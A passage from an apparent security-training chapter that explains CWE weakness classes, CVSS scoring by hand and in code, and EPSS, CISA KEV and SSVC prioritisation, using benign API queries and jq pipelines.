`while : ; do ... done` is an infinite loop (`:` is the shell's no-op true); the `break` exits once `startIndex` has passed `totalResults`. The `sleep 6` is not optional.

---

## Part 5: CWE — The Weakness Taxonomy

### CVE Names Instances; CWE Names Classes

If CVE is "which specific bug in which specific product", **CWE (Common Weakness Enumeration)** is "what kind of mistake was made". CVE-2021-44228 is one instance; CWE-917 (*Improper Neutralization of Special Elements used in an Expression Language Statement*) is the class it belongs to. A single CWE has thousands of CVEs mapped to it. A single CVE can map to more than one CWE, and often does when a chain is involved.

The distinction is not academic:

- **Remediation is per-CVE. Prevention is per-CWE.** You patch a CVE once. You fix a CWE by changing how a team writes code — a linter rule, a safe API, a code-review checklist, a training module.
- **Detection engineering is per-CWE.** A WAF rule or Sigma rule targets a weakness class, not an individual CVE. One good CWE-89 (SQL injection) detection covers flaws that have not been discovered yet.
- **Trend analysis is per-CWE.** "We shipped fourteen CWE-79 findings this quarter" is an actionable statement about your SDLC. "We shipped fourteen CVEs" is not.

### The Abstraction Hierarchy

CWE entries exist at different levels of abstraction, and mapping to the wrong level is the most common CWE mistake.



| Abstraction | Description | Example | Use for mapping? |
|---|---|---|---|
| **Pillar** | Highest level, extremely broad | CWE-707 Improper Neutralization | No — too vague |
| **Class** | Independent of any specific technology | CWE-74 Injection, CWE-20 Improper Input Validation | Only if no Base fits |
| **Base** | Sufficient detail to infer detection and prevention methods | CWE-89 SQL Injection, CWE-787 Out-of-bounds Write | **Yes — target this level** |
| **Variant** | Tied to a specific technology or context | CWE-564 SQLi via Hibernate | Yes when it genuinely applies |
| **Category** | A *grouping* by shared characteristic, not a weakness itself | CWE-1218 Memory Buffer Errors | **Never** — categories are not mappable |
| **Compound** | Chain or composite of multiple weaknesses | CWE-352 CSRF (composite) | Yes, when the record is genuinely compound |

**The rule to remember:** map at **Base** level whenever a Base entry fits. Mapping everything to CWE-20 ("Improper Input Validation") is the classic failure — it is technically true of half of all vulnerabilities and tells a developer nothing about how to fix anything. CWE-20 is a Class and is explicitly discouraged as a mapping target when a Base entry exists.

### Views: The Same Entries, Organised Differently

A **view** is a curated slice of the CWE corpus for a specific audience.

| View ID | Name | Audience / purpose |
|---|---|---|
| **CWE-1000** | Research Concepts | The full hierarchy organised by behaviour — the "real" tree |
| **CWE-699** | Software Development | Organised by development concept (auth, memory, API) — developer-facing |
| **CWE-1194** | Hardware Design | Hardware weaknesses |
| **CWE-1003** | Weaknesses for Simplified Mapping of Published Vulnerabilities | The restricted set NVD analysts map CVEs to |
| **CWE-1350+** | Various Top-N and domain lists | Prioritisation and awareness |

CWE-1003 matters practically: it is deliberately small so that mapping is consistent and fast. That is also why NVD's CWE assignment is sometimes coarser than the CNA's — they are drawing from a smaller vocabulary.

### The CWE Top 25

The **CWE Top 25 Most Dangerous Software Weaknesses** is computed, not voted on. The methodology takes CVEs from a recent window, follows their CWE mappings, and scores each weakness by a combination of **frequency** (how many CVEs map to it) and **severity** (the CVSS scores of those CVEs), with additional weight given to weaknesses appearing in the CISA KEV catalog.

The perennial residents — the ones you should be able to recognise on sight:

| CWE | Name | Where you meet it |
|---|---|---|
| **CWE-787** | Out-of-bounds Write | C/C++ parsers, image and font libraries, network stacks |
| **CWE-79** | Cross-site Scripting | Every web app that reflects user input |
| **CWE-89** | SQL Injection | String-concatenated queries |
| **CWE-416** | Use After Free | Browsers, kernels, complex C++ |
| **CWE-78** | OS Command Injection | Router web UIs, admin panels, CI scripts |
| **CWE-20** | Improper Input Validation | Everywhere (and over-used as a mapping) |
| **CWE-125** | Out-of-bounds Read | Heartbleed-class info leaks |
| **CWE-22** | Path Traversal | File download/upload endpoints, archive extraction |
| **CWE-352** | Cross-Site Request Forgery | State-changing endpoints without tokens |
| **CWE-434** | Unrestricted Upload of File with Dangerous Type | Avatar/document upload → webshell |
| **CWE-862** | Missing Authorization | APIs that check *who you are* but not *what you may do* |
| **CWE-863** | Incorrect Authorization | Broken object-level access control |
| **CWE-502** | Deserialization of Untrusted Data | Java, .NET, Python pickle, PHP `unserialize` |
| **CWE-287** | Improper Authentication | Auth bypasses, token confusion |
| **CWE-798** | Use of Hard-coded Credentials | Firmware, appliances, mobile apps |
| **CWE-918** | Server-Side Request Forgery | Cloud metadata theft, internal pivots |
| **CWE-306** | Missing Authentication for Critical Function | Unauthenticated admin endpoints |
| **CWE-190** | Integer Overflow or Wraparound | Length calculations preceding a CWE-787 |
| **CWE-476** | NULL Pointer Dereference | DoS in services and drivers |
| **CWE-611** | Improper Restriction of XML External Entity Reference | XML parsers with DTD processing on |

**Bug-bounty relevance:** the top of this list *is* the bounty payout distribution. CWE-918 (SSRF), CWE-863/CWE-862 (broken access control), CWE-79 and CWE-89 dominate disclosed reports on the major platforms. When you are learning to hunt, picking a CWE and going deep on every bypass and variant of it is a far better strategy than scanning broadly with a tool — the tool finds the obvious instances of a class, and you get paid for the non-obvious ones.

**CTF relevance:** the pwn category is essentially a tour of CWE-787, CWE-416, CWE-125 and CWE-190. Web categories are CWE-89, CWE-79, CWE-22, CWE-502, CWE-918. Recognising which weakness class a challenge is built around before you start typing is most of the solve.

### Chains and Composites

Real vulnerabilities are frequently not one weakness. CWE models this explicitly:

- **Chain** — one weakness leads to another. Classic: **CWE-190** (integer overflow in a size calculation) → **CWE-787** (out-of-bounds write when the undersized buffer is filled). The CVE may be mapped to either or both; the *chain* is the accurate description.
- **Composite** — several weaknesses must all be present simultaneously. CWE-352 (CSRF) is the canonical composite: it requires predictable request structure, session-based authentication carried automatically by the browser, and no unpredictable per-request token. Remove any one and CSRF is impossible — which is exactly why there are three different ways to fix it.

**Why this matters when you write a finding:** naming the *chain* tells the developer where the cheapest fix is. If a CWE-190 → CWE-787 chain exists, fixing the integer overflow is usually a one-line change; hardening the write path is not. The chain view finds the cheap fix.

---
## Part 6: CVSS — Scoring Severity, Metric by Metric

**CVSS (Common Vulnerability Scoring System)** is an open, vendor-neutral framework maintained by **FIRST** (the Forum of Incident Response and Security Teams) for expressing the *intrinsic technical severity* of a vulnerability as a number from 0.0 to 10.0 plus a human-readable vector string.

The single most important sentence in this entire chapter:

> **CVSS base score measures severity, not risk.** It deliberately excludes your environment, your asset value, your compensating controls, and whether anyone is actually exploiting the flaw. Treating a base score as a risk score is the root cause of most broken vulnerability-management programs.

CVSS is organised into metric groups:



Almost everyone publishes and consumes only the Base group. Almost everyone should be using the Environmental group and does not. That gap is where a good assessor adds value.

### CVSS v3.1 Base Metrics In Detail

#### Attack Vector (AV) — how "remote" is it?

| Value | Weight | Meaning | Example |
|---|---|---|---|
| **Network (N)** | 0.85 | Exploitable across a routed network; "remotely exploitable" at layer 3+ | Unauthenticated HTTP request from the internet |
| **Adjacent (A)** | 0.62 | Requires access to the same broadcast/collision domain or a bounded logical network | ARP spoofing, Bluetooth, same-VLAN attack, a VPN-limited protocol |
| **Local (L)** | 0.55 | Requires local read/write/execute — a shell, or a user opening a malicious file | Local privilege escalation; a malicious document parsed by a desktop app |
| **Physical (P)** | 0.20 | Requires physically touching the device | DMA attack over Thunderbolt, cold-boot, JTAG |

The subtlety most people miss: **a vulnerability where the victim opens a file you emailed them is `AV:L`, not `AV:N`**, because the attack is delivered through a local action on a local file. The "network" in AV refers to how the *vulnerable component* is reached, not how the payload travelled.

#### Attack Complexity (AC) — are there conditions outside the attacker's control?

| Value | Weight | Meaning |
|---|---|---|
| **Low (L)** | 0.77 | Repeatable success against any vulnerable instance; no special conditions |
| **High (H)** | 0.44 | Requires the attacker to invest in preparation or win a race — e.g. defeating ASLR by leaking an address, a timing/race window, a man-in-the-middle position |

AC is **not** "is it hard to write the exploit". Writing a browser exploit is enormously hard, but if the finished exploit works every time against every instance, that is `AC:L`. AC captures *conditions beyond the attacker's control*, not attacker skill. This trips up nearly everyone the first time.

#### Privileges Required (PR) — what does the attacker need before starting?

| Value | Weight (Scope Unchanged) | Weight (Scope Changed) | Meaning |
|---|---|---|---|
| **None (N)** | 0.85 | 0.85 | Unauthenticated |
| **Low (L)** | 0.62 | 0.68 | Ordinary user account, or access to non-sensitive resources |
| **High (H)** | 0.27 | 0.50 | Administrative or otherwise significant privileges |

Note that PR's weight *increases* when Scope is Changed — escaping to another security authority from a privileged position is scored as more valuable to the attacker than the Unchanged case implies.

#### User Interaction (UI) — must a human help?

| Value | Weight | Meaning |
|---|---|---|
| **None (N)** | 0.85 | The attacker acts alone |
| **Required (R)** | 0.62 | A separate user must do something — click, open, visit, confirm |

#### Scope (S) — does the impact cross a security authority boundary?

| Value | Meaning |
|---|---|
| **Unchanged (U)** | The exploited component and the impacted component are governed by the same security authority |
| **Changed (C)** | Impact reaches resources beyond the vulnerable component's security authority |

Scope is the hardest metric and the biggest score-mover. Canonical `S:C` cases:

- A **VM escape** — a flaw in the guest impacts the hypervisor and other guests.
- A **sandbox escape** — a browser renderer bug that reaches the OS.
- **Stored XSS** — the vulnerable component is the web server; the impacted component is the victim's browser, a different authority.
- **SSRF** — the vulnerable web app is used to reach internal services it was never meant to expose.
- **Log4Shell** — the vulnerable component is the logging library; the impact reaches the whole JVM and host.

When Scope changes, the final score is multiplied by 1.08 and the Impact sub-formula becomes far steeper. This is exactly why Log4Shell reached 10.0 rather than 9.8.

#### Confidentiality, Integrity, Availability (C / I / A)

| Value | Weight | Meaning |
|---|---|---|
| **High (H)** | 0.56 | Total loss, or loss of information whose disclosure has serious direct impact |
| **Low (L)** | 0.22 | Some loss; the attacker does not control what is obtained/modified, or the effect is constrained |
| **None (N)** | 0.00 | No impact on this dimension |

A common error: scoring a full-database read as `C:H, I:H, A:H` because "it's really bad". If the attacker can only read, it is `C:H/I:N/A:N`. The CIA metrics describe *what the attacker can do*, not how upset the business is.

### The Vector String

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
  |      |    |    |    |    |    |    |    |
  |      |    |    |    |    |    +----+----+-- Impact: total C, I, A loss
  |      |    |    |    |    +----------------- Scope: Changed
  |      |    |    |    +---------------------- User Interaction: None
  |      |    |    +--------------------------- Privileges Required: None
  |      |    +-------------------------------- Attack Complexity: Low
  |      +------------------------------------- Attack Vector: Network
  +-------------------------------------------- CVSS version 3.1
```

**Learn to read vectors, not scores.** The vector is the analysis; the score is a lossy compression of it. Two 7.5s can be completely different animals:

- `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` → 7.5, remote unauthenticated **information disclosure**.
- `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` → 7.5, remote unauthenticated **denial of service**.

The first leaks your database. The second reboots a service. Identical numbers, entirely different remediation urgency depending on the asset. Anyone triaging on the number alone treats these the same, which is wrong.

### Severity Ratings

| Score range | v3.x rating |
|---|---|
| 0.0 | None |
| 0.1 – 3.9 | Low |
| 4.0 – 6.9 | Medium |
| 7.0 – 8.9 | High |
| 9.0 – 10.0 | Critical |

These bands are a presentational convenience defined by the standard. They are *not* remediation SLAs, though almost every organisation borrows them as such.

### The v3.1 Formula — Computing a Score By Hand

Being able to do this is genuinely useful: it lets you sanity-check a vendor's score, and it lets you compute a *modified* score for your own environment when the published one does not reflect reality.

**Step 1 — Impact Sub-Score (ISS):**

```
ISS = 1 - [ (1 - C) × (1 - I) × (1 - A) ]
```

**Step 2 — Impact:**

```
If Scope Unchanged:  Impact = 6.42 × ISS
If Scope Changed:    Impact = 7.52 × (ISS - 0.029) - 3.25 × (ISS - 0.02)^15
```

**Step 3 — Exploitability:**

```
Exploitability = 8.22 × AV × AC × PR × UI
```

**Step 4 — Base Score:**

```
If Impact <= 0:      BaseScore = 0
If Scope Unchanged:  BaseScore = Roundup( min(Impact + Exploitability, 10) )
If Scope Changed:    BaseScore = Roundup( min(1.08 × (Impact + Exploitability), 10) )
```

`Roundup` here means round **up** to one decimal place (with the standard's specific integer-arithmetic definition to avoid floating-point surprises) — 8.21 becomes 8.3, not 8.2.

#### Worked example A — Log4Shell, `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`

```
C = I = A = 0.56  (High)

ISS = 1 - (1-0.56)(1-0.56)(1-0.56)
    = 1 - (0.44 × 0.44 × 0.44)
    = 1 - 0.085184
    = 0.914816

Scope is Changed:
Impact = 7.52 × (0.914816 - 0.029) - 3.25 × (0.914816 - 0.02)^15
       = 7.52 × 0.885816 - 3.25 × (0.894816)^15
       = 6.66134 - 3.25 × 0.18888
       = 6.66134 - 0.61386
       = 6.04773

AV:N = 0.85,  AC:L = 0.77,  PR:N = 0.85 (Scope Changed table),  UI:N = 0.85
Exploitability = 8.22 × 0.85 × 0.77 × 0.85 × 0.85
               = 8.22 × 0.472876
               = 3.88704

Scope Changed:
BaseScore = Roundup( min(1.08 × (6.04773 + 3.88704), 10) )
          = Roundup( min(1.08 × 9.93477, 10) )
          = Roundup( min(10.7296, 10) )
          = 10.0
```

The `min(..., 10)` clamp is doing real work here: the raw computation exceeded the ceiling. This is why 10.0 is not "as bad as it could theoretically be" — several genuinely different vulnerabilities all pile up at exactly 10.0.

#### Worked example B — a scope-unchanged remote info leak, `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`

```
C = 0.56, I = 0, A = 0

ISS = 1 - (1-0.56)(1-0)(1-0) = 1 - 0.44 = 0.56

Scope Unchanged:
Impact = 6.42 × 0.56 = 3.5952

Exploitability = 8.22 × 0.85 × 0.77 × 0.85 × 0.85 = 3.88704

BaseScore = Roundup( min(3.5952 + 3.88704, 10) )
          = Roundup( 7.48224 )
          = 7.5
```

#### Worked example C — a local privilege escalation, `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`

```
ISS  = 1 - (0.44 × 0.44 × 0.44) = 0.914816
Impact (S:U) = 6.42 × 0.914816 = 5.87312

AV:L = 0.55, AC:L = 0.77, PR:L = 0.62 (S:U table), UI:N = 0.85
Exploitability = 8.22 × 0.55 × 0.77 × 0.62 × 0.85
               = 8.22 × 0.223185
               = 1.83458

BaseScore = Roundup( min(5.87312 + 1.83458, 10) ) = Roundup(7.70770) = 7.8
```

This is the shape of most local-privesc CVEs: `7.8`. Once you recognise the number you can predict the vector, and vice versa.

#### Doing it programmatically

You will not do this by hand at scale. Install a reference implementation:

```bash
pip install cvss --break-system-packages
```

```python
from cvss import CVSS3

vectors = [
    "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H",   # Log4Shell-shaped
    "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N",   # remote info leak
    "CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H",   # local privesc
]

for v in vectors:
    c = CVSS3(v)
    print(f"{c.scores()[0]:>5}  {c.severities()[0]:<9} {v}")
```

```
 10.0  Critical  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
  7.5  High      CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
  7.8  High      CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
```

`c.scores()` returns a `(base, temporal, environmental)` tuple; with no temporal or environmental metrics supplied, all three equal the base score.

### Temporal / Threat Metrics — the group nobody publishes

| Metric | Values | Effect |
|---|---|---|
| **Exploit Code Maturity (E)** | Not Defined (X), Unproven (U), Proof-of-Concept (P), Functional (F), High (H) | Lowers the score when no working exploit exists |
| **Remediation Level (RL)** | Not Defined (X), Official Fix (O), Temporary Fix (T), Workaround (W), Unavailable (U) | Lowers the score when a fix is available |
| **Report Confidence (RC)** | Not Defined (X), Unknown (U), Reasonable (R), Confirmed (C) | Lowers the score when the report is unconfirmed |

Temporal metrics can only ever *reduce* a score below base. Almost nobody publishes them, because they require continuous re-evaluation — which is precisely the job EPSS and the KEV catalog now do better, with actual data instead of an analyst's guess (Part 7).

### Environmental Metrics — the group YOU should be using

This is where CVSS actually becomes useful for a specific organisation. Two mechanisms:

**1. Security Requirements (CR / IR / AR)** — declare, per asset, whether Confidentiality, Integrity or Availability is High, Medium (default) or Low for *this* system. A database of health records gets `CR:H`. A stateless CDN edge node might get `CR:L/AR:H`.

**2. Modified Base Metrics (MAV, MAC, MPR, MUI, MS, MC, MI, MA)** — override any base metric to reflect your actual deployment. This is the honest, defensible way to downgrade a finding.

Real example. A CVE is published as `AV:N` because the vulnerable service *can* listen on the network. In your deployment it is bound to `127.0.0.1` and reachable only from a local shell. You do not argue with the vendor's score — you publish a modified one:

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/MAV:L/MPR:L
```

```python
from cvss import CVSS3
c = CVSS3("CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/MAV:L/MPR:L")
print(c.scores())        # (base, temporal, environmental)
print(c.severities())
```

```
(9.8, 9.8, 7.8)
('Critical', 'Critical', 'High')
```

A 9.8 becomes a 7.8, and — crucially — **the vector records exactly why**. "We downgraded it because it's not really reachable" is an argument. `MAV:L/MPR:L` is evidence. Always show the modified vector alongside the modified score in a report; a reviewer can then disagree with your specific reasoning rather than with your conclusion.

### CVSS v2 — Still In the Data You Will Touch

Older records carry v2 vectors, and some regulated environments still mandate v2 reporting. You need to be able to read it.

| Metric | Values | Notes |
|---|---|---|
| **Access Vector (AV)** | Local (L), Adjacent Network (A), Network (N) | No Physical value |
| **Access Complexity (AC)** | High (H), Medium (M), Low (L) | Three levels, not two |
| **Authentication (Au)** | Multiple (M), Single (S), None (N) | Replaced by PR in v3 |
| **C / I / A** | None (N), Partial (P), Complete (C) | Coarser than v3's H/L/N |

No Scope metric exists in v2 — its absence is the main reason v2 systematically under-scored sandbox and container escapes.

**The canonical illustration of v2's weakness is Heartbleed (CVE-2014-0160):**

```
CVSS v2:   AV:N/AC:L/Au:N/C:P/I:N/A:N          → 5.0  (Medium)
CVSS v3.x: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N → 7.5  (High)
```

A remote, unauthenticated memory-disclosure bug that leaked private keys from millions of servers scored **5.0, "Medium"**, under v2, because v2 could only express confidentiality impact as "Partial" when the attacker does not get the whole system. Any organisation whose policy was "remediate High and above" was told by its own process to ignore Heartbleed. This is not a historical curiosity — it is the concrete demonstration of why you read vectors and apply environmental context rather than filtering on a number.

### CVSS v4.0 — What Changed and Why

v4.0 addresses the two loudest complaints about v3.1: too many things cluster at 9.8, and the Base score gets consumed as if it were risk.

**New and changed metrics:**

| Change | Detail |
|---|---|
| **Attack Requirements (AT)** added | Values None (N) / Present (P). Splits out deployment-condition prerequisites that v3 crammed into AC. AC now means only "attacker-controllable evasion effort". |
| **Impact split into Vulnerable and Subsequent systems** | `VC/VI/VA` (impact on the vulnerable system) and `SC/SI/SA` (impact on subsequent systems). **This replaces Scope entirely** with something explicit and far less ambiguous. |
| **User Interaction refined** | None (N) / Passive (P) / Active (A), instead of just None/Required |
| **Supplemental metric group added** | Safety (S), Automatable (AU), Recovery (R), Value Density (V), Vulnerability Response Effort (RE), Provider Urgency (U). These convey information but **do not affect the score**. |
| **Temporal renamed Threat**, reduced to Exploit Maturity (E) | Aligns with how threat intel is actually consumed |
| **Explicit nomenclature** | CVSS-B, CVSS-BT, CVSS-BE, CVSS-BTE — you must state which groups you scored |
| **Scoring by lookup, not closed formula** | Metrics are compressed into "MacroVectors" and scores come from an expert-derived lookup table with interpolation, rather than the v3 arithmetic |

The nomenclature change is the culturally important one. Saying "the CVSS score is 9.8" is now incomplete; the correct statement is "the **CVSS-B** score is 9.8", which implicitly admits you have not accounted for threat or environment.

A v4.0 vector:

```
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N
```

Note there is no `S:` component — subsequent-system impact is now stated directly as `SC/SI/SA`. Since v4.0 has no closed-form formula, hand-calculation is impractical; use a calculator or library.

| Feature | v2 | v3.1 | v4.0 |
|---|---|---|---|
| Base metrics | 6 | 8 | 11 |
| Authentication model | Au (M/S/N) | PR (N/L/H) | PR (N/L/H) |
| Cross-boundary impact | *(absent)* | Scope (U/C) | SC / SI / SA |
| Impact granularity | N/P/C | N/L/H | N/L/H, two systems |
| Attack Requirements | folded into AC | folded into AC | separate AT metric |
| User Interaction | *(absent)* | N/R | N/P/A |
| Threat/temporal | 3 metrics | 3 metrics | 1 metric (E) |
| Safety / OT relevance | none | none | Supplemental Safety metric |
| Scoring method | closed formula | closed formula | MacroVector lookup |
| Typical adoption | legacy records | overwhelmingly dominant | growing, coexists with v3.1 |

**Practical advice:** expect to handle v2, v3.0, v3.1 and v4.0 simultaneously for years. Any tooling you build must key on the vector's version prefix and must never compare a v2 score to a v3 score numerically. In the NVD API, the metrics object contains separately-named arrays (`cvssMetricV2`, `cvssMetricV30`, `cvssMetricV31`, `cvssMetricV40`) precisely because they are not interchangeable.

```bash
# Prefer v3.1, fall back through the versions, and record which one you got
jq -r '.vulnerabilities[].cve
       | {id,
          v40: (.metrics.cvssMetricV40[0].cvssData.baseScore // null),
          v31: (.metrics.cvssMetricV31[0].cvssData.baseScore // null),
          v30: (.metrics.cvssMetricV30[0].cvssData.baseScore // null),
          v2:  (.metrics.cvssMetricV2[0].cvssData.baseScore  // null)}' nvd.json
```

The `//` operator in jq is "alternative": it yields the right-hand side if the left is null or false — the idiomatic way to handle records missing a given metric version.

---
## Part 7: Beyond CVSS — EPSS, KEV and SSVC

Here is the number that reframes the whole discipline: across the published CVE corpus, roughly **half of all records score 7.0 or above** under CVSS v3.x, while the fraction of CVEs ever observed being exploited in the wild is in the low single-digit percent. A severity-only program therefore tells you to urgently fix tens of thousands of things, of which a few hundred matter. It is not a prioritisation scheme; it is a lottery.

Three systems fix this from different directions.

### EPSS — the probability someone will actually exploit it

The **Exploit Prediction Scoring System**, also from FIRST, is a data-driven model that outputs, for each CVE, the **probability (0 to 1) that it will be exploited in the wild in the next 30 days**. It is trained on real exploitation telemetry and on features drawn from the CVE record, references, exploit-code availability, vendor, and more.

Two numbers come back and they mean different things:

- **`epss`** — the probability itself. `0.944` means a 94.4% modelled chance of exploitation activity in the next 30 days.
- **`percentile`** — where this CVE ranks against all others. `0.999` means it is more likely to be exploited than 99.9% of all scored CVEs.

Use the **probability** for absolute decisions ("anything above 0.1 goes in this sprint") and the **percentile** for relative ones ("work the top 0.1% first"). Mixing them up produces nonsense thresholds — the score distribution is extremely skewed, so the vast majority of CVEs have an `epss` below 0.01, and a "50th percentile" CVE has a near-zero probability.

The API is free and requires no key:

```bash
curl -s 'https://api.first.org/data/v1/epss?cve=CVE-2021-44228' | jq .
```

```json
{
  "status": "OK",
  "status-code": 200,
  "version": "1.0",
  "access": "public",
  "total": 1,
  "data": [
    {
      "cve": "CVE-2021-44228",
      "epss": "0.944400000",
      "percentile": "0.999500000",
      "date": "2026-10-14"
    }
  ]
}
```

Batch lookups (comma-separated, and note the URL-encoding of the comma is unnecessary but the quoting is not):

```bash
curl -s 'https://api.first.org/data/v1/epss?cve=CVE-2021-44228,CVE-2014-0160,CVE-2019-0708' \
  | jq -r '.data[] | [.cve, .epss, .percentile] | @tsv'
```

```
CVE-2021-44228	0.944400000	0.999500000
CVE-2014-0160	0.943200000	0.999400000
CVE-2019-0708	0.944100000	0.999500000
```

`@tsv` emits tab-separated values — the right choice when the next stage of your pipeline is `awk`, `sort` or `column`.

Useful query parameters:

| Parameter | Purpose |
|---|---|
| `cve=` | One or more CVE IDs, comma-separated |
| `epss-gt=` | Only results with `epss` greater than this |
| `percentile-gt=` | Only results above this percentile |
| `days=` | Historical scores for the last N days (watch a score move) |
| `envelope=true&pretty=true` | Metadata wrapper and formatted output |
| `offset=` / `limit=` | Pagination |

```bash
# Everything the model currently rates above a 50% chance of exploitation
curl -s 'https://api.first.org/data/v1/epss?epss-gt=0.5&limit=100' \
  | jq -r '.data[] | [.cve, .epss] | @tsv' | sort -k2 -rn | head
```

`sort -k2 -rn` sorts on the second field (`-k2`), numerically (`-n`), in reverse (`-r`).

**The full daily dataset** is published as a gzipped CSV and is the right thing to consume if you are scoring more than a few hundred CVEs:

```bash
curl -s https://epss.empiricalsecurity.com/epss_scores-current.csv.gz | gunzip > epss.csv
head -4 epss.csv
```

```
#model_version:v2025.03.14,score_date:2026-10-14T00:00:00+0000
cve,epss,percentile
CVE-1999-0001,0.00459,0.72925
CVE-1999-0002,0.03266,0.90648
```

The first line is a comment carrying the model version and score date — strip it before parsing (`tail -n +2`).

**EPSS caveats you must state in a report:**

- It predicts *exploitation activity observed by sensors*, which correlates with, but is not identical to, exploitation of *your* systems. Targeted attacks against you are invisible to it.
- It is a **30-day forward window**, and it moves. A CVE sitting at 0.02 in one pull can be at 0.9 in the next once an exploit lands. Re-pull scores; do not cache them for a quarter.
- It knows nothing about your asset value or exposure. A high-EPSS flaw on a system you do not run is still irrelevant.
- Very new CVEs may have low scores simply because the model has little signal yet.

### CISA KEV — the flaws we *know* are being exploited

The **Known Exploited Vulnerabilities catalog** maintained by CISA is not a prediction. It is a curated list of CVEs for which there is **reliable evidence of active exploitation in the wild**. Inclusion requires an assigned CVE ID, evidence of active exploitation, and clear remediation guidance.

Under U.S. Binding Operational Directive 22-01, federal civilian agencies must remediate KEV entries by a stated due date. Everyone else uses it as the highest-confidence prioritisation signal available, for free.

```bash
curl -s https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json -o kev.json
jq '{count, catalogVersion}' kev.json
```

```json
{
  "count": 1387,
  "catalogVersion": "2026.10.14"
}
```

One entry:

```bash
jq '.vulnerabilities[] | select(.cveID=="CVE-2021-44228")' kev.json
```

```json
{
  "cveID": "CVE-2021-44228",
  "vendorProject": "Apache",
  "product": "Log4j2",
  "vulnerabilityName": "Apache Log4j2 Remote Code Execution Vulnerability",
  "dateAdded": "2021-12-10",
  "shortDescription": "Apache Log4j2 contains a vulnerability where JNDI features do not protect against attacker-controlled JNDI-related endpoints, allowing for remote code execution.",
  "requiredAction": "Apply updates per vendor instructions.",
  "dueDate": "2021-12-24",
  "knownRansomwareCampaignUse": "Known",
  "notes": "https://logging.apache.org/log4j/2.x/security.html",
  "cwes": ["CWE-917"]
}
```

The field that earns its keep in an executive summary is **`knownRansomwareCampaignUse`** — `"Known"` or `"Unknown"`. "This vulnerability is confirmed in use by ransomware operators" moves a remediation request through a change-approval board in a way that "CVSS 10.0" does not.

Handy extractions:

```bash
# Every KEV CVE ID, one per line — the join key for your scan results
jq -r '.vulnerabilities[].cveID' kev.json | sort > kev_ids.txt

# KEV entries known to be used in ransomware campaigns
jq -r '.vulnerabilities[]
       | select(.knownRansomwareCampaignUse=="Known")
       | [.cveID, .vendorProject, .product] | @tsv' kev.json | head

# Which vendors dominate the catalog
jq -r '.vulnerabilities[].vendorProject' kev.json | sort | uniq -c | sort -rn | head
```

```
    120 Microsoft
     72 Cisco
     58 Adobe
     41 Apple
     38 Google
     31 Oracle
     28 Ivanti
     26 VMware
     24 Apache
     22 Fortinet
```

**Red-team relevance:** the KEV catalog is, read from the other side, a list of things that reliably work against under-maintained networks, together with the exact products they work against. On an assessment, cross-referencing your enumerated service versions against KEV is one of the highest-yield five minutes available.

**Blue-team relevance:** KEV membership should be a hard override in your SLA policy. If a CVE is in KEV and present in your environment, it is Priority 1 regardless of its CVSS score — including the ones scored Medium.

### SSVC — decisions instead of numbers

**SSVC (Stakeholder-Specific Vulnerability Categorization)**, from CERT/CC and used by CISA, abandons the single-number approach entirely. Instead you walk a decision tree over a few decision points and land on an **action**, not a score.

Decision points (in CISA's coordinator/stakeholder tree):

| Decision point | Values | Question |
|---|---|---|
| **Exploitation** | None / Public PoC / Active | Is there evidence of exploitation or public exploit code? |
| **Automatable** | No / Yes | Can steps 1–4 of the kill chain (recon, weaponise, deliver, exploit) be automated at scale? |
| **Technical Impact** | Partial / Total | Does successful exploitation give total control of the vulnerable component? |
| **Mission & Well-being** | Low / Medium / High | What is the impact on mission-essential functions and public well-being? |

Outcomes:

| Outcome | Meaning |
|---|---|
| **Track** | No action now; monitor. Remediate within routine cycles. |
| **Track\*** | Monitor closely; may need action sooner than routine. |
| **Attend** | Involve supervisors and internal stakeholders; act sooner than routine. |
| **Act** | Immediate action; involve leadership; remediate as fast as possible. |



The tree above is simplified — the published tree also branches on Mission & Well-being — but the shape is the point: **an action falls out, and the reasoning is auditable**. When a system owner asks "why is this one urgent and that one isn't", you can show the path through the tree rather than defending a decimal.

### Putting the signals together



| Signal | Answers | Source | Cost | Weakness |
|---|---|---|---|---|
| **CVSS-B** | How bad *if* exploited | CNA / NVD | Free | Ignores context and reality entirely |
| **CVSS-BE** (environmental) | How bad *here* | You | Analyst time | Requires asset knowledge |
| **EPSS** | How likely to be exploited soon | FIRST | Free | Probabilistic; blind to targeted attacks |
| **KEV** | Confirmed exploited in the wild | CISA | Free | Lagging; only the confirmed subset |
| **SSVC** | What should we *do* | CERT/CC + you | Analyst time | Needs mission context per asset |
| **Vendor risk scores** (VPR, QDS, Real Risk) | Blended prioritisation | Scanner vendor | Licensed | Proprietary, not portable, not auditable |

**The practical composite policy** that most mature programs converge on:

1. **KEV membership** → immediate action, no debate, any CVSS.
2. **EPSS above a threshold** (commonly 0.1, tuned to your capacity) **AND** exposed asset → this sprint.
3. **CVSS-B ≥ 9.0 AND validated reachable** → next scheduled cycle.
4. **Everything else** → routine patching, or documented risk acceptance with a compensating control and a review date.

Note what this does: it demotes tens of thousands of "High" findings that are unreachable and unexploited, and it promotes a handful of "Medium" findings that are being used against people right now. That inversion is the whole point.

---

## Part 8: CPE and the Matching Problem

### What CPE Is

**CPE (Common Platform Enumeration)** is the naming scheme that lets a machine decide whether a CVE applies to a given installed product. The current form is the CPE 2.3 formatted string:

```
